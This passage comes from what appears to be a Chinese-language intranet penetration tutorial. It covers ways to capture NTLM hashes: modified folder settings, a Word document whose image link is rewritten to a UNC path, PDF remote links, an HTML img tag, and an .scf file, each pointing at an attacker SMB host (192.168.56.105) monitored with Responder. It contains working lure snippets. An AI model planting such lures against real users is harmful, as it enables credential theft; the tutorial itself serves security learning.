 ![1689086774_64ad6b36591907ed6df9b.png!small?1689086774124](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQSE3BoicNuB7mia5wWusRmNrbgMxlavA7rC0V1enpSDhK3HvcdWTuVXyQ/640?wx_fmt=jpeg&from=appmsg "")  
  
在查看中把这个选项取消  
  
![1689135724_64ae2a6c4e1d7db8cc435.png!small?1689135725032](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQY89Lfib7I4pjtwqJI6bMv0wGhIwILIklic2ZXDCmjyMgPMHpPERvFJXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
进入到password文件夹下修改这个文件的值为一个不存在的smb或Responder模拟的服务地址。  
  
![1689086791_64ad6b47eda75d6c4dcf8.png!small](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQ0R5GyMpibCLuKmb53iaqqVZbxw3KnH7V7vmxfYb5mVl3cdPibvia9VcEjA/640?wx_fmt=jpeg&from=appmsg "")  
  
只要打开这个test文件夹，就会访问我们设置的SMB服务，同样，我们也可以拿到NTLM hash了。  
### doc文件中使用UNC路径  
  
在doc里插入图片然后将相应的链接改为UNC路径，通过内网邮件发送给对方。  
  
新建一个word，然后插入一张图片  
  
![1689135739_64ae2a7b15267104177ac.png!small?1689135739891](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQQZxRu012byGT6SqVQ5cXPibaiagLNbmkVow3DfLylZIA5oOjNSgRPWBw/640?wx_fmt=jpeg&from=appmsg "")  
  
用压缩软件打开，进入word/_rels，打开document.xml.rels，可以看到Target参数本来是本地的路径  
  
![1689135853_64ae2aed2a36848b42e31.png!small?1689135853755](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQcVkp3w2VqPOBdItuUEk7TViayBPH0icIc4moCWFIeW8OEqicXSrUDEr1g/640?wx_fmt=jpeg&from=appmsg "")  
  
![1689135861_64ae2af52d71ce1e207f5.png!small?1689135861777](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQlukHKVbVsprFECIhodsKA0knj5iaKhFUY5Qb7FDWk14takGDTCiaa46Q/640?wx_fmt=jpeg&from=appmsg "")  
  
我们修改为UNC路径，然后加上TargetMode=”External”  
  
![1689135867_64ae2afb09ad683f61a0f.png!small?1689135867561](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBy0ric0GSpFuwRB9L433AROQh4j2tBFB4U5fCN6ltpvHmnGLxZ9z6pdtlXaC2Depl56IIpQwJvYYmg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
最后保存，打开这个文件就可以拿到net-ntlm hash。  
### 利用PDF的GoTObe和GoToR功能  
  
让对方打开PDF文件时自动请求SMB服务器上的文件，通过邮件发送给相关的人员。  
### web页面嵌入网络共享资源  
  
在web页面中嵌入网络共享资源，然后引诱用户去访问，也可以通过outlook发送给相关的人员  

```
<p>test</p> <img src=&#34;\\\\192.168.56.105\\test&#34;>
```

### 可以创建scf文件  
  
只要一个文件底下含有scf后缀的文件,由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标。而IconFile是支持UNC路径的，所以当打开文件夹的时候，目标主机就会去请求指定UNC的图标资源。于是我们像上面那样修改UNC路径，指向我们的服务器。然后用responder监听  

```
[Shell] Command=2 IconFile=\192.168.56.105\scf\scf.ico [Taskbar] Command=ToggleDesktop
```

  
## 总结  
  
关于内网安全的文章以及出了好几篇，大家可能有个疑问，那就是很多的攻击都需要再去破解，如果都使用了强密码，那么是不是攻击就没有了效果。其实安全就是这样，我们就是要从任何可能造成安全问题的地方去尝试，找到短板，这就要求我们尽可能的尝试多种方法。  
  
**由于本人水平有限，文章中可能会出现一些错误，欢迎各位大佬指正，感激不尽。如果有什么好的想法也欢迎交流~~**  
## 参考文章  
  
https://www.freebuf.com/articles/network/256844.html  
  
https://blog.csdn.net/nzjdsds/article/details/94314995  
  
https://www.cnblogs.com/0d4y/p/12805112.html  
  
  
